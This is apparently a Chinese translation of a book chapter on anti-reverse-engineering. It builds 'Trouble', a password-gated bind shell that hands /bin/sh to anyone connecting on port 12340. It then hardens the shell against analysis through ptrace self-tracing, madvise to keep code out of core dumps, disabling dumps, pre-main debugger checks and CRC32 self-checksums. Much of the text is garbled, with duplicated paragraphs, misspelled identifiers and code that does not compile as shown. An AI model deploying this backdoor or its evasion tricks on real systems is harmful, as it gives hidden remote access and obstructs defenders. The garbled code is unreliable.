bind_addr.sin_addr = htonl(INADDR_ANY);

bind_addr.sin_port = htons(12340);

```

```c

int bind_result = bind(sock, (struct sockaddr*)&bind_addr, sizeof(bind_addr));

if (bind_result != 0) {

    perror("Bind failed");

    exit(EXIT_FAILURE);

}

```

```c

int listen_result = listen(sock, 5);

if (listen_result != 0) {

    perror("Listen failed");

    exit(EXIT_FAILURE);

}

```

```c

while (true)

{

    int client_sock = accept(sock, NULL, NULL);

    if (client_sock < 0) {

        perror("Accept failed");

        exit(EXIT_FAILURE);

    }

}

```

```c

int child_pid = fork();

if (child_pid == 0) {

    // 读取密码

    char password_input[password_size] = {};

    int read_result = read(client_sock, password_input, password_size - 1);

    if (read_result < (int)(password_size - 1)) {

        close(client_sock);

        exit(EXIT_FAILURE);

    }

}

```

```c

    // 解密目标

    struct rc4_state state = {};

    mprotect(check_password, (uint64_t)password_size, PROT_READ | PROT_WRITE | PROT_EXEC);
```


`rc4_init(&state, check_password_key, sizeof(check_password_key));`

`rc4_crypt(&state, (unsigned char*)check_password, (unsigned char*)check_password, (uint64_t)password_size);`

```c
mprotect(check_password, (uint64_t)password_size, PROT_READ | PROT_EXEC);

if (check_password(password_input)) {

    close(client_sock);

    exit(EXIT_FAILURE);

}

dup2(client_sock, 0);

dup2(client_sock, 1);

dup2(client_sock, 2);

char* empty[] = { NULL };

char* binsh[] = { '/', 'b', 'i', 'n', '/', 's', 'h', 0 };

execve(binsh, empty);

close(client_sock);

exit(EXIT_SUCCESS);
```

```c
int main(int p_argc, char* p_argv[])

{

    (void)p_argc;

    (void)p_argv;

    // 注册处理 SIGTRAP 的 trap 函数

    struct sigaction sVal = {};

    sVal.sa_flags = SA_SIGINFO;

    sVal.sa_sigaction = trap_handler;

    sigaction(SIGTRAP, &sVal, NULL);

    // 生成 sigtrap

    kill(getpid(), SIGTRAP);

    return EXIT_SUCCESS;

}
```
如果你在 GDB 中运行此版本的 Trouble，它将在调用 `trap_handler()` 前退出。

## Trouble 在 SIGTRAP 后提前退出

```
albino-lobster@ubuntu:~/antire_book/chap_6_debugger/dpantpanic/build$ gdb ./trouble/trouble
```
GNU gdb (Ubuntu 7.11.1-0ubuntu.14) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPL3+: GNU gdb version 3 or later <http://www.gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law. Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
http://www.gnu.org/software/gdb/bugs/.
Find the GDB manual and other documentation resources online at:
http://www.gnu.org/software/gdb/documentation/..
For help, type "help".
Type "apropos word" to search for commands related to "word"
Reading symbols from ./trouble/trouble... (no debugging symbols found)...done.

```
(gdb) start

Temporary breakpoint 1 at 0x4005b1

Starting program: /home/albino-lobster/antire_book/chap_6_debugger/dpantpanic/build/trouble

Temporary breakpoint 1, 0x0000000000004005b1 in main ()

(gdb) c

Continuing.

Program received signal SIGTRAP, Trace/breakpoint trap.

0x00000000000040cd9 in kill ()

(gdb) c

Continuing.

[Inferior 1 (process 84663) exited normally

(gdb)
```

如上所示，GDB 接收到了 SIGTRAP 但没有将其传递给 Trouble，因此执行了 `trap_handler()`。

但这种技术存在一个问题。如果调试器在生成 SIGTRAP 后附加到 Trouble，它将无法被检测。在下面的示例中，`gcore` 生成 core 文件没有问题。遗憾的是，我们的 SIGTRAP 方法几乎什么做不了阻止这一点。即使你生成了更多的 SIGTRAP 信号，这种方法也无法阻止其他进程的附加。

## 附加

另一种著名方法是在派生的子进程中使用 `PTRACE_ATTACH`。考虑 Trouble 的以下更改：

Trouble 更新为跟踪自身

```c
int main(int p_argc, char* p_argv[])

{

    (void)p_argc;

    (void)p_argv;

    int child_pid = fork();

    if (child_pid == 0)

    {

        // 跟踪父进程

        if (ptrace(PTRACE_ATTACH, getpid(), NULL, NULL) != 0) {

            exit(EXIT_FAILURE);

        }prace(PTRACE_SETOPTIONS, getpid(), NULL, PTRACE_O_TRACEFORK);

    // 重启父进程以便能够像往常一样继续处理

}
```

```c
int status = 0;

wait(&status);

ptrace(PTRACE_CONT, getppid(), NULL, NULL);

// 处理被追踪者可能产生的任何信号

while (true) {

    int pid = wait(&status);

    if (status >> 16 == PTRACE_EVENT_FORK) {

        // 跟进 fork 操作

        long newpid = 0;

        ptrace(PTRACE_GETEVENTMSG, newpid, NULL, NULL, &newpid);

        ptrace(PTRACE_ATTACH, newpid, NULL, NULL);

        ptrace(PTRACE_CONT, newpid, NULL, NULL);

    }

}
```

上面的代码将 `fork()` 出子进程，该进程通过 `PTRACE_ATTACH` 成为父进程 Trouble进程的追踪器。它还会自动开始追踪由于 `PTRACE_SETOPS` 调用引起的任何 fork 操作。这在很大程度上解决了我们在 `PTRACEME` 方法上遇到的问题，因为我们现在知道了追踪程序是谁：Trouble！这也解决了我们在 `SIGTRAP` 上遇到的问题。没有人能简单附加到 Trouble 主进程，因为它正被子进程追踪。

然而，这种方法确实存在问题：

- 1. 任何人都可以附加到追踪 Trouble 的子进程。
- 2. 如果 fork 出追踪器被杀死，主进程将无法感知。
- 3. 使用 `PTRACE_ATTACH` 需要提升权限。

第二点的示例例如所示：

## 第 6 章：逃避调试器

## 为了生成 core 文件而杀死子进程

```bash
albino-lobster@ubuntu:-$ ps fa

PID TTY  STAT TIME COMMAND

6352 pts/21 Ss    0:00 bash

6956 pts/21 R+    0:00 \_ ps fa

6230 pts/9  Ss    0:00 bash

6942 pts/9  S    0:00 \_ sudo su

6943 pts/9  S    0:00 \_ su

6944 pts/9  S    0:00 \_ ./trouble/trouble

6954 pts/9  S+   0:00 \_ ./trouble/trouble

6955 pts/9  S+   0:00

albino-lobster@ubuntu:-$ sudo gcore 6954
```

无法附加到进程。如果你的 uid 与目标进程的 uid 匹配，请检查 /proc/sys/kernel/yama/ptrace_scope 的设置，或尝试作为 root 用户重试。更多详情请参阅 /etc/sysctl.d/10-ptrace.conf。警告：进程 6954 已被进程 6955 追踪
ptrace: 操作不允许。

如果没有待调试的进程，你无法操作。
程序没有运行。

```bash
gcore: failed to create core.6954

albino-lobster@ubuntu:-$ sudo kill -9 6954

albino-lobster@ubuntu:-$ sudo gcore 6954

0x00000000000401328 in __syscall ()
```

已保存 corefile.6954
albino-lobster@ubuntu:-$

如你所示，在进程 6955 被杀死之前，gcore 无法为 6955 创建 core 文件。然而，在执行 `sudo kill -9 6955` 后，gcore 能够产生 core 文件。

不过，你可以通过使用 ptrace 选项 `PTRACE_O_EXITKILL` 轻松修复这个问题。这会在追踪器被杀死时，向所有被追踪者发送 `SIGKILL` 信号。你可以更新代码如下：

```c
ptrace(PTRACE_SETOPTIONS, getppid(), NULL, PTRACE_TRACEFORK | PTRACE_O_EXITKILL);
```

现在，如果攻击者尝试杀死追踪器 Trouble，Trouble 将直接消失。

## 第 6 章：逃避调试器

```bash
albino-lobster@ubuntu:~$ ps fa
```
PID TTY     STAT TIME COMMAND
6352 pts/21 Ss     0:00 bash
7071 pts/21 R+     0:00 _ ps fa
6230 pts/9  Ss     0:00 bash
7041 pts/9  S      0:00 _ sudo su
7042 pts/9  S      0:00 _ su
7043 pts/9  S      0:00 _ bash
7068 pts/9  S+     0:00 _ ./trouble/trouble
7069 pts/9  S+     0:00 _ ./trouble/trouble
```

albino-lobster@ubuntu:~$ sudo gcore 7068

无法附加到进程。如果你的 uid 与目标进程的 uid 匹配，请检查 /proc/sys/kernel/yama/ptrace_scope 的设置，或尝试作为 root 用户重试。更多详情请参阅 /etc/sysctl.d/10-ptrace.conf。警告：进程 7068 已被进程 7069 追踪

ptrace: 操作不允许。

如果没有待调试的进程，你无法操作。

程序没有运行。

gore: failed to create core.7068

albino-lobster@ubuntu:~$ sudo kill 7069

albino-lobster@ubuntu:~$ sudo gcore 7068

ptrace: 无该进程。

## madvise

在上一节中，你介绍了一种检测调试器是否已附加到 Trouble-tracing 子进程的新方法。然而，该方法无法防止诸如 `gcore` 这种在不控制执行的情况下进行附加并脱离的工具。

`gcore` 仍然能够附加到 Trouble-tracing 子进程：

```
albino-lobster@ubuntu:~$ ps fa
PID TTY      STAT TIME COMMAND
6369 pts/29 Ss+       0:00 bash
6352 pts/21 Ss        0:00 bash
16614 pts/21 R+       0:00  _ _ fa
6230 pts/9 Ss        0:00 bash
16611 pts/9 S+       0:00  _ ./trouble/trouble
16612 pts/9 S+       0:00  _ ./trouble/trouble
16613 pts/9 S+       0:00  _ ./trouble/trouble
albino-lobster@ubuntu:~$ sudo gcore 16613
0x000000000000402374 in __syscall ()
Saved core.16613
```

正如之前提到的，核心文件可以加载到 IDA 中，并提供一个去除了许多混淆的 Trouble 视图。然而，Linux 中有一个名为 `madvise()` 的函数，它允许我们将某些内存范围排除在核心文件之外。`madvise()` 系统调用用于向内核从 `addr` 开始长度为 `size` 字节的地址范围提供建议。需要注意的是，尽管 `madvise()` 未在 POSIX 中规定，但随后添加了许多 Linux 特有的建议值。

其中一个“Linux 特有的建议值”是 `MADV_DONTUMP`。再次参考 `madvise()` 的说明：从核心转储中排除由 addr 和长度指定的范围内的那些内存页。这对于具有大面积内存且已知这些内存在核心转储中没有用处的应用程序非常有用。MADV_DONTUMP 的效果优于通过 `/proc/PID/coredump_filter` 设置的位掩码。通过使用 `madvise()`，你可以防止 gdb 转储 Trouble。唯一的挑战是程序化地找到传递给 `madvise()` 的地址。为了实现这一点，我创建另一个编译后工具。该项目包含两个文件：

### CMakeLists.txt

```cmake
cmake_minimum_required(VERSION 3.0)
project(madvise)

set(CMAKE_CXX_FLAGS "-Wall -extra -g")

add_executable(${PROJECT_NAME} src/madvise.cpp)
```

### madvise.cpp


其中一个“Linux 特有的建议值”是 `MADV_DONTUMP`。再次参考 `madvise()` 的说明：从核心转储中排除由 `addr` 和长度指定的范围内的内存页。这对于具有大面积内存且已知这些内存在核心转储中没有用处的应用程序非常有用。`MADV_DONTUMP` 的效果优于通过 `/proc/PID/coredump_filter` 设置的位掩码。通过使用 `madvise()`，你可以防止 `gdb` 转储 Trouble。唯一的挑战是程序化地找到传递给 `madvise()` 的地址。为了实现这一点，我创建另一个编译后工具。该项目包含两个文件：

### CMakeLists.txt

```cmake
cmake_minimum_required(VERSION 3.0)
project(madvise)

set(CMAKE_CXX_FLAGS "-Wall -extra -g")

add_executable(${PROJECT_NAME} src/madvise.cpp)
```

### madvise.cpp

```cpp
#include <cstdlib>
#include <iostream>
#include <fstream>
#include <cstring>
#include <elf.h>

/*
 * 解析程序头并存储第一个 LOAD 节头部的地址/大小，
 * 寻找 ".madvise_base_addr" 和 ".madvise_size"，
 * 我们将从中提取地址和大小。
 * @param p_data ELF 二进制文件
 * @return 如果找到了都两个 .madvise 节，则返回 true
 */
bool add_advise_info(std::string& path, std::vector<unsigned char>& p_data) {
    if (p_data[0] != 0x7f || p_data[1] != 'E' || p_data[2] != 'L' || p_data[3] != 'F') {
        return false;
    }

    Elf64_Ehdr* header = reinterpret_cast<Elf64_Ehdr*>(&p_data[0]);
    Elf64_Shdr* sections = reinterpret_cast<Elf64_Shdr*>(&p_data[header->e_shoff]);
    uint64_t sections_count = header->e_shnum;
    if (sections_count == 0) {
        std::cerr << "No section table" << std::endl;
        return false;
    }

    Elf64_Shdr* strings_header = reinterpret_cast<Elf64_Shdr*>(
        &p_data[header->e_phoff] + (header->e_psize + header->e_shstrx));
    const char* strings_table = &p_data[strings_header->sh_offset];

    Elf64_Phdr* phdr = reinterpret_cast<Elf64_Phdr*>(&p_data[phdr->e_phoff]);
    uint64_t base_address = phdr->p_vaddr;
    uint64_t size = phdr->p_filesize;

    int found = 0;
    Elf64_Shdr* current = sections;
    for (uint64_t i = 0; i < sections_count; i++, current++) {
        std::string section_name(&strings_table[current->sh_name]);
        if (section_name.find(".madvise_base_addr") == 0) {
            memcpy(&p_data[0] + current->sh_offset, &base_address, 
                   sizeof(base_address));
            found++;
        }
        else if (section_name.find(".madvise_size") == 0) {
            memcpy(&p_data[0] + current->sh_offset, &size, sizeof(size));
            found++;
        }
    }

    return (found == 2);
}

int main(int argc, char** argv) {
    if (argc != 2) {
        std::cerr << "Usage: ./madvise <file>" << std::endl;
        return EXIT_FAILURE;
    }

    std::ifstream inputFile(argv[1], std::ios::binary | std::ios::in);
    if (!inputFile.is_open()) {
        std::cerr << "Failed to open file " << argv[1] << std::endl;
        return EXIT_FAILURE;
    }

    std::vector<unsigned char> input((std::istreambuf_iterator<char>(inputFile)),
                                 std::istreambuf_iterator<char>());
    inputFile.close();

    std::string path = argv[1];
    if (!add_advise_info(path, input)) {
        return EXIT_FAILURE;
    }

    std::ofstream outputFile(path, std::ios::binary | std::ios::out);
    if (!outputFile.is_open()) {
        std::cerr << "Failed to open file " << argv[1] << std::endl;
        return EXIT_FAILURE;
    }

    outputFile.write((char*)input.data(), input.size());
    outputFile.close();

    return EXIT_SUCCESS;
}
```

## 第 6 章：逃避调试器

然而，如果你在 `relf` 中查看核心文件的程序头，你会发现 Trouble 执行的 `0x400000` 范围缺失了。

`madvise` 导致了 `0x400000` 范围消失

```
albino-lobster@ubuntu:-$ redelf -l ./core.5712
```

Elf 文件类型为 CORE (核心文件)

入口点 `0x0`

有 6 个程序头，起始偏移量为 `0x`

程序头:

| Type | Offset | FileSize | VirtAddr | MemSize | PhysAddr | Flags | Align |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| NOTE | 0x0000000000000190 | 0x0000000000000000 | 0x0000000000000000 | | | | |
| LOAD | 0x0000000000000090 | 0x0000000000000000 | | | R | 1 |
| LOAD | 0x0000000000000b60 | 0x0000000000000400 | | | | 1 |
| LOAD | 0x0000000000000200 | 0x0000000000000200 | | | RW | 1 |
| LOAD | 0x0000000000000260 | 0x0000000000007b00 | 0x0000000000000000 | | | | |
| LOAD | 0x0000000000000100 | 0x0000000000000100 | | | RW | 1 |
| LOAD | 0x00000000000003b0 | 0x0007fffe2f527600 | 0x0000000000000000 | | | | |
| LOAD | 0x0000000000002100 | 0x0000000000000100 | | | RW | 1 |
| LOAD | 0x00000000000024b0 | 0x0007fffe2f52cc00 | 0x0000000000000000 | | | | |
| LOAD | 0x0000000000000200 | 0x0000000000000200 | | | RE | 1 |
| LOAD | 0x00000000000002b0 | 0xffffffffffff6000 | 0x0000000000000000 | | | RE | 1 |

段到段映射：

段段...

- 00 
- 01 load
- 02 load
- 03 load
- 04 load
- 05 load

此外，如果你将核心文件拖入 IDA，你会发现核心文件中并不存在 `0x400000` 范围。这有效地隐藏了 Trouble 的所有代码。

IDA 中生成的核心文件顶部


```
load:00000000000604000 : Input SHA256 : 9384EEBF41F681E6130F742FE80C68DA7980A22559AEE38F9D85517DE3E83B8
load:00000000000604000 : Input MD5 : 8843AE83C8AA457AD924AEA1A12AB845
load:00000000000604000 : Input CRC32 : 3F2209C
load:00000000000604000 : File Name : C:\Users\ADMIN1\AppData\Temp\vmware-Adm-initiator\VMWareDn(6b89e00b).core.571
load:00000000000604000 : Format : ELF64 for x86-64 (Core file)
load:00000000000604000 : Imagebase : 640000
load:00000000000604000 ; .686p
load:00000000000604000 ; .mmx
load:00000000000604000 ; .model flat
load:00000000000604000 .intel_syntax noprefix
load:00000000000604000 ; =================
load:00000000000604000 : Segment type: Pure data
load:00000000000604000 : Segment permissions: Read/Write
load:00000000000604000 byte public 'DATA' use64
load:00000000000604000 assume cs:load
load:00000000000604000 ;org 60400h
load:00000000000604000 db 6B ; k
load:00000000000604001 db 31h ; 1
```

在上一节中，出现在 core dump 中的代码经过了混淆。但是，完全不允许 core dump 会更好吗？到目前为止我一直在使用 `gdb` 生成核心文件，但这并非必须。只需向 Trouble 发送正确的信号即可生成核心文件。

### 使用 -11 生成核心文件

```
albino-lobster@ubuntu:~/antire_book/chap_6_debugger/dontpanic/build$ ls -l
total 56
-rw-r--r-- 1 albino-lobster albino-lobster 13260 Dec 5 05:54 CMakeCache.txt
-drwxrxr-x 4 albino-lobster albino-lobster 4096 Dec 5 17:30 CMakeFiles
-rwxr-xr-x 1 albino-lobster albino-lobster 2187 Dec 5 05:54 cmake_install.cmake
-drwxrxr-x 3 albino-lobster albino-lobster 4096 Dec 5 05:54 cryptor
-drwxrxr-x 3 albino-lobster albino-lobster 4096 Dec 5 05:54 encryptFunctions
-drwxrxr-x 3 albino-lobster albino-lobster 4096 Dec 5 05:54 fakeHeadersXBit
-drwxrxr-x 3 albino-lobster albino-lobster 4096 Dec 5 05:54 madvise
-rw-r--r-- 1 albino-lobster albino-lobster 7041 Dec 5 05:54 Makefile
-drwxrxr-x 3 albino-lobster albino-lobster 4096 Dec 5 05:54 stripBinary
-drwxrxr-x 3 albino-lobster albino-lobster 4096 Dec 5 17:30 trouble
albino-lobster@ubuntu:~/antire_book/chap_6_debugger/dontpanic/build$ sudo ./core/trouble &
[1] 7773
albino-lobster@ubuntu:~/antire_book/chap_6_debugger/dontpanic/build$ ulimit -c unlimited
albino-lobster@ubuntu:~/antire_book/chap_6_debugger/dontpanic/build$ ps fa
PID TTY STAT TIME COMMAND
2135 pty S 0:00 bash
7773 pty S 0:00 ./trouble/trouble
7774 pty S 0:00 ./trouble/trouble
7775 pty S 0:00 ./trouble/trouble
7776 pty R+ 0:00 ps fa
albino-lobster@ubuntu:~/antire_book/chap_6_debugger/dontpanic/build$ sudo kill -11 7775
albino-lobster@ubuntu:~/antire_book/chap_6_debugger/dontpanic/build$ ls -l
total 228
-rw-r--r-- 1 albino-lobster albino-lobster 13260 Dec 5 05:54 CMakeCache.txt
-drwxrxr-x 4 albino-lobster albino-lobster 4096 Dec 5 17:30 CMakeFiles
-rwx-xr-x 1 albino-lobster albino-lobster 2187 Dec 5 05:54 cmake_install.cmake
-rw-r--r-- 1 root 176128 Dec 5 17:32 core
-drwxrxr-x 3 albino-lobster albino-lobster 4096 Dec 5 05:54 cryptor
-drwxrxr-x 3 albino-lobster albino-lobster 4096 Dec 5 05:54 encryptFunctions
-drwxrxr-x 3 albino-lobster albino-lobster 4096 Dec 5 05:54 fakeHeadersXBit
-drwxrxr-x 3 albino-lobster albino-lobster 4096 Dec 5 05:54 madvise
-rw-r--r-- 1 albino-lobster albino-lobster 7041 Dec 5 05:54 Makefile
-drwxrxr-x 3 albino-lobster albino-lobster 4096 Dec 5 05:54 stripBinary
-drwxrxr-x 3 albino-lobster albino-lobster 4096 Dec 5 17:30 trouble
[1] Killed ./trouble/trouble
albino-lobster@ubuntu:~/antire_book/chap_6_debugger/dontpanic/build$ sudo -l ./core
```

Elf file type is CORE (Core file)
Entry point 0x0
There are 8 program headers, starting at offset 0x

| Type | Offset | FileSize | VirtAddr | MemSize | PhysAddr | Flags | Align |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| NOTE | 0x0000000000000020 | 0x0000000000000000 | 0x0000000000000000 | | | | |
| LOAD | 0x0000000000000008 | 0x0000000000000000 | 0x0000000000000000 | | | | 0 |
| LOAD | 0x0000000000000010 | 0x0000000000000640 | 0x0000000000000000 | | | | |
| LOAD | 0x0000000000000000 | 0x0000000000000500 | 0x0000000000000000 | | RWE | 1000 |
| LOAD | 0x0000000000000000 | 0x0000000000000640 | 0x0000000000000000 | | | | |
| LOAD | 0x0000000000000200 | 0x0000000000000200 | 0x0000000000000000 | | RW | 1000 |
| LOAD | 0x0000000000000300 | 0x0000000000222100 | 0x0000000000000000 | | | | |
| LOAD | 0x0000000000000100 | 0x0000000000000100 | | | RW | 1000 |
| LOAD | 0x0000000000000400 | 0x000000007fff0fc80 | 0x0000000000000000 | | | | |
| LOAD | 0x0000000000000200 | 0x0000000000000200 | | | RW | 1000 |
| LOAD | 0x0000000000002600 | 0x0007fff0eff1100 | 0x0000000000000000 | | | | |
| LOAD | 0x0000000000000200 | 0x0000000000000200 | | | R | 1000 |
| LOAD | 0x0000000000002800 | 0x0007fff0eff3000 | 0x0000000000000000 | | | | |
| LOAD | 0x0000000000000200 | 0x0000000000000200 | | | E | 1000 |
| LOAD | 0x0000000000000000 | 0xffffffffff6000 | 0x0000000000000000 | | | |
| LOAD | 0x0000000000000100 | 0x0000000000000100 | | | RE | 1000 |

这不仅生成了一个核心文件，而且 `0x400000` 范围清晰可见！我们不能允许这种情况。对于 Linux，内核提供了一个可以使用的函数来防止信号触发核心生成。该函数是配合 `PR_SET_DUMPABLE` 使用的 `prctl()`。根据手册页：`PR_SET_DUMPABLE` 标志决定了在递送默认行为为产生核心的信号时，是否为调用进程产生核心转储。

# 第 6 章：规避调试器

232

79

```
[+]+ Killed
sudo . ./trouble/trouble
albino-lobster@ubuntu:~-antire_book/chap_6_debugger/dontpanic/build$ ls -l
total 56
-rw-r--r-- 1 albino-lobster albino-lobster 13260 Dec 5 05:54 CMakeCache.txt
drwx-xr-x 4 albino-lobster albino-lobster 4096 Dec 5 05:17 CMakeFiles
-rw-r--r-- 1 albino-lobster albino-lobster 2187 Dec 5 05:54 cmake_install.cmake
drwx-xr-x 3 albino-lobster albino-lobster 4096 Dec 5 05:54 cryptor
drwx-xr-x 3 albino-lobster albino-lobster 4096 Dec 5 05:54 encryptFunctions
drwx-xr-x 3 albino-lobster albino-lobster 4096 Dec 5 05:54 fakeHeadersXBit
drwx-xr-x 3 albino-lobster albino-lobster 4096 Dec 5 05:54 madvise
-rw-r--r-- 1 albino-lobster albino-lobster 4096 Dec 5 05:54 Makefile
drwx-xr-x 3 albino-lobster albino-lobster 4096 Dec 5 05:54 stripBinary
drwx-xr-x 3 albino-lobster albino-lobster 4096 Dec 5 05:17 trouble
```

## 在 main() 之前进行检测

在防止调试器采取任何有助于逆向工程的有用操作方面，你已经走了很长一段路。`GDB` 有时仍然$^{55}$ 可以运行，直到跟踪线程检测到调试器并杀死进程。更好的做法是在 `main()` 执行之前捕获代码。使用“`constructor`”属性的函数会在 `main()` 之前被调用。

### 在 main() 之前检查 /proc/self/status

```cpp
/**
 * 在进入 main 之前检查是否存在调试器
 */
void __attribute__((constructor)) before_main()
{
    check_proc_status();
}
```

- * 这种实现了一个非常简单的 bind shell（绑定 shell）。服务器首先要求一个

> $^{55}$ 有时 `GDB` 会在进入 `main()` 时崩溃。这是因为 `GDB` 在 `main()` 的第一条指令处插入了一个断点，而加密器会对该值进行 XOR 运算。这有时会导致崩溃，有时则不会（取决于生成的代码）。

* 密码在允许访问 shell 之前输入。该密码目前在每次运行 `cmake ..` 时随机生成。
* 服务器没有关闭机制，因此它将一直运行直到被杀死为止。

```cpp
int main(int p_argc, char* p_argv[])
```

上述操作会导致 Trouble 提前退出。

### 在进入 main() 之前退出

```
albino-lobster@ubuntu:~/antire_book/chap_6_debugger/dontpanic/build$ sudo gdb ./trouble
GNU gdb (Ubuntu 7.11.1-0ubuntu~16.04) 7.11.1
Copyright (2016) Free Software Foundation, Inc.
License GPLv3+: GPL version 3 or later <http://gnu.org/licenses/gpl.html>
这是一个免费软件：你可以自由地复制和分发它。
在法律允许的范围内不提供任何担保。输入 "show copying"
和 "show warranty" 查看详情。
此 GDB 配置为 "x86_64-linux-gnu"。
输入 "show configuration" 查看配置详情。
有关错误报告的说明，请参阅：
<http://www.gnu.org/software/db/bugs/>。
<http://www.gnu.org/software/db/documentation/>。
在线查找 GDB 手册或其他文档：
需帮助，输入 "help"。
输入 "apropos word" 搜索与 "word" 的命令...
从 ./trouble 读取符号...(未找到调试符号)...完成。
(gdb)
启动程序: /home/albino-lobster/antire_book/chap_6_debugger/dontpanic/build/trouble
[Inferior 1 (process098) 退出 0]
(gdb)
```

## 计算校验和

此时，你需要担心逆向工程师可能添加的各种调试器检查。有两种方法可以应对：

1. 像我们在第四章中那样加密你的函数。
2. 对你的代码计算校验和以确保其没有被修改。

虽然我认为加密方法是更好的选择，因为它具有其他优点（反分析和反内存）。对于这种实现，我们将使用由 Stephan Brumme 编写的修改版 CRC32 算法。CRC32 代码分布两个文件中：

```cpp
chap_6_debugger/dontpanic/computeChecksums/src/crc32.h
#include <stdint.h>
// 基于 http://create.stephan-brummer.com/crc32
uint32_t crc32_bitwise(const unsigned char* data, uint64_t length);
```

```c
chap_6_debugger/dontpanic/computeChecksums/src/crc32.c
#include "crc32.h"
#include <stdlib.h>
#include <sys/param.h>
uint32_t crc32_bitwise(const unsigned char* data, uint64_t length)
{
    uint32_t crc = ~0;
    const unsigned char* current = data;
    while (length--)
    {
```


```c
crc ^= *current++;

for (int j = 0; j < 8; j++)

{

    crc = (crc >> 1) ^ (-int32_t)(crc & 1) & 0EDB88320);

}

}
return -crc;

}
```

正如你之前所做的，你将依赖特殊的段名称和链接器来找到我们要计算并在编译后插入正确的值。我在章节中引入了一个名为`computeChecksums`的新项目。`computeChecksums`目录包含上述其他两个文件：

```cmake
chap_6_debugger/dontpanic/computeChecksums/CMakeLists.txt
project(computeChecksums CXX)
cmake_minimum_required(VERSION 3.0)
set(CMAKE_CXX_FLAGS "-Wall -Wextra -g")
add_executable(${PROJECT_NAME}
    src/computeChecksums.cpp
    src/crc32.c)
set_source_properties(src/crc32.c PROPERTIES CXX)
```

```cpp
chap_6_debugger/dontpanic/computeChecksums/src/computeChecksums.cpp
#include <cstdlib>
#include <iostream>
#include <fstream>
#include <iomanip>
#include <string>
#include <cstring>
#include <elf.h>
#include <map>
bool compute_crcs(std::string& p_data)
{
    if (p_data[0] != 0x7f || p_data[1] != 'E' || p_data[2] != 'L' || p_data[3] != 'F')
    {
        return false;
    }
    Elf64_Ehdr* ehdr = reinterpret_cast<Elf64_Ehdr*>(&p_data[0]);
    Elf64_Shdr* sections = reinterpret_cast<Elf64_Shdr*>(&p_data[ehdr->e_off]);
    Elf64_Half sections_count = ehdr->e_shnum;
    Elf64_Shdr* strings_header = reinterpret_cast<Elf64_Shdr*>(&p_data[ehdr->e_stroff]);
    const char* strings_table = &p_data[strings_header->sh_offset];
    std::map<std::string, Elf64_Addr> current_mappings;
    // 查找所有 ".compute_crc_" 段
    Elf64_Shdr* current = sections;
    for (int i = 0; i < sections_count; i++) {
        std::string section_name(&strings_table[current->sh_name]);
        if (section_name.find(".compute_crc_") == 0)
        {
            std::string func_name = "." + section_name.sub(13);
            current_mappings[func_name] = current->sh_offset;
        }
    }
    // 查找所有 ".compute_crc_" 引用的段
    current = sections;
    for (int i = 0; i < sections_count; i++) {
        std::string section_name(&strings_table[current->sh_name]);
        if (current_mappings.find(section_name) != current_mappings.end())
        {
            uint32_t crc = crc32_bitwise(reinterpret_cast<unsigned char*>(&p_data[current->sh_offset]), current->sh_size);
            memcpy(&p_data[current_mappings[section_name]], &crc, sizeof(crc));
        }
    }
    return true;
}
/*
* 加载 ELF。
* 扫描段 "load_crc_xxx"
* 扫描段 "xxx"
*/
int main(int p_argc, char** p_argv) {
    if (p_argc != 2)
    {
        std::cerr << "Usage: ./computeChecksums <file path>" << std::endl;
        return EXIT_FAILURE;
    }
    std::ifstream inputFile(p_argv[1], std::ifstream::in | std::ifstream::binary);
    if (!inputFile.is_open() || !inputFile.good())
    {
        std::cerr << "Failed to open the provided file: " << p_argv[1] << std::endl;
        return EXIT_FAILURE;
    }
    std::string input((std::istreambuf_iterator<char>(inputFile)),
                      std::istreambuf_iterator<char>());
    inputFile.close();
    compute_crcs(input);
    std::ofstream outputFile(p_argv[1], std::ofstream::out | std::ofstream::binary);
    if (!outputFile.is_open() || !outputFile.good())
    {
        std::cout << "Failed to wopen the provided file: " << p_argv[1] << std::endl;
        return EXIT_FAILURE;
    }
    outputFile.write(input.data(), input.length());
    outputFile.close();
    return EXIT_SUCCESS;
}
```

为了将`computeChecksums`集成到`dontpanic`中，需要更新`CMakeLists.txt`：

# `chap_6_debugger/dontpanic/CMakeLists.txt`

```cmake
project(dontpanic C)
make_minimum_required(VERSION 3.0)
add_subdirectory(stripBinary)
add_subdirectory(fakeHeadersXBit)
add_subdirectory(encryptFunctions)
add_subdirectory(computeChecksums)
add_subdirectory(madvise)
add_subdirectory(cryptor)
add_subdirectory(trouble)
```

此外，链接脚本也需要更新。

`chap_6_debugger/dontpanic/trouble_layout.lds`

```ld
SECTIONS
{
    check_password_size = SIZEOF(.check_password);
    main_function_size = SIZEOF(.main_function);
}
```

接下来我们需要在`trouble.c`中为`.main_function`和`.compute_crc_main_function`添加定义。

`chap_6_debugger/dontpanic/trouble/src/trouble.c`

```c
uint32_t madvise_base __attribute__((section(".madvise_base_addr"))) = 0;
uint32_t madvise_size __attribute__((section(".madvise_size"))) = 0;
```

```c
extern void* main_function_size;
uint32_t main_function_crc __attribute__((section(".compute_crc_main_function"))) = 0;
```

让我们修改`before_main()`，将存储的`main()`的`crc32`与运行时计算的值进行比较。

## 在运行时计算校验和

```c
/**
 * 在我们进入 main 之前检查是否存在调试器
 */
void __attribute__((constructor)) before_main()
{
    // 检查 launch_thread 中是否存在断点
    if (crc32_bitwise((unsigned char*)&main, (uint64_t)&main_function_size) !=
        main_function_crc) {
        exit(0);
    }
}
```

最后，将计算逻辑钩到 Trouble 的`CMakeLists.txt`中

`chap_6_debugger/dontpanic/CMakeLists.txt`

```cmake
project(trouble C)
cmake_minimum_required(VERSION 3.0)
# 这将为 bind shell 创建一个 32 字节的“密码”。该命令
# 只在执行 "cmake" 时运行，因此如果你想生成新密码，
# 应该从命令行运行 "cmake ..; make"。
exec_program("/bin/sh"
${CMAKE_CURRENT_SOURCE_DIR}
ARGS -c 'cat /dev/urandom | tr -dc a-zA-Z0-9 | head -c 32'
OUTPUT_VARIABLE random_password)
### 将随机密码作为宏传递给 ${PROJECT_NAME}
add_definitions(-Dpassword="${password}" -Dpassword_size=33)
set(CMAKE_C_COMPILER mus-gcc)
set(CMAKE_C_FLAGS "-Wall -Wextra -Wshadow -static -std=gnull -Wno-int-to-pointer-cast/")
